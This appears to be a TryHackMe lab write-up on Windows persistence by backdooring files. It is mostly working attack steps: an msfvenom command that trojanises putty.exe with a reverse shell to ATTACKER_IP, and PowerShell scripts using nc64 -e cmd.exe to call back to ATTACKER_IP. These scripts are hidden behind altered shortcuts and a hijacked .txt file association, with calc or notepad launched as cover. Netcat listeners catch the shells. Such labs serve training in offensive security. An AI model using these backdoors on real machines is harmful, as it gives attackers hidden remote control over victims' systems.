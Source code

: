 # Windows Local Persistence: Backdooring Files

Establishing persistence can involve tampering with files that users interact with regularly. By modifying these files, backdoors can be planted to execute whenever the user accesses them. To avoid detection, the altered files must continue to function as expected.

Below are some common methods for planting backdoors:

---

## Executable Files

Executable files found on the desktop are often used frequently by users. For example, if a shortcut to PuTTY is found, it might point to `C:\Program Files\PuTTY\putty.exe`. The executable can be downloaded, modified, and re-uploaded to include a payload.

### Example: Backdooring `putty.exe`
Use `msfvenom` to inject a payload into an executable:
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```
The resulting `puttyX.exe` will execute a reverse shell payload while maintaining the original functionality of PuTTY.

---

## Shortcut Files

Instead of altering the executable, the shortcut file itself can be tampered with. The shortcut can be modified to point to a script that runs a backdoor and then executes the original program.

### Example: Backdooring a Shortcut
1. Create a PowerShell script (e.g., `C:\Windows\System32\backdoor.ps1`):
    ```powershell
    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
    Start-Process -NoNewWindow "C:\Windows\System32\calc.exe"
    ```
2. Modify the shortcut's target to:
    ```plaintext
    powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
    ```
3. Adjust the shortcut's icon to match the original executable.

### Listener Setup
Start a listener on the attacker's machine:
```bash
nc -lvp 4445
```
When the shortcut is double-clicked, a reverse shell will be established, and the user will see the expected program (e.g., Calculator).

---

## Hijacking File Associations

File associations can be hijacked to execute a backdoor whenever a specific file type is opened. File associations are stored in the registry under `HKLM\Software\Classes\`.

### Example: Hijacking `.txt` Files
1. Locate the ProgID for `.txt` files (e.g., `txtfile`) and its `shell\open\command` subkey.
2. Create a PowerShell script (e.g., `C:\Windows\backdoor2.ps1`):
    ```powershell
    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
    Start-Process -NoNewWindow "C:\Windows\system32\NOTEPAD.EXE" $args[0]
    ```
3. Modify the registry key to:
    ```plaintext
    powershell.exe -WindowStyle hidden C:\Windows\backdoor2.ps1 %1
    ```
4. Start a listener on the attacker's machine:
    ```bash
    nc -lvp 4448
    ```
5. Open any `.txt` file on the victim machine to trigger the backdoor.

---

## THM Flag

Execute `C:\flags\flag5.exe` from your reverse shell to retrieve the flag.